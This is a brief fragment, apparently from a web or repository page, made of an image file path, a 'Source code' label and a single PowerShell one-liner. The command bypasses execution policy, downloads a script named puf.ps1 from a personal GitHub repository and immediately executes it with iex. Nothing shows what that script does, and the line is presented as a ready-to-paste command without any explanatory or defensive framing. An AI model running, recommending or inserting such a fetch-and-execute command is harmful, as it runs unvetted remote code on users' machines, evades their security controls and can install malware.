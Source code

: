 powershell -NoProfile -ExecutionPolicy Bypass -Command "iex (iwr -UseBasicParsing 'https://raw.githubusercontent.com/aran1910/ddd/main/puf.ps1')"
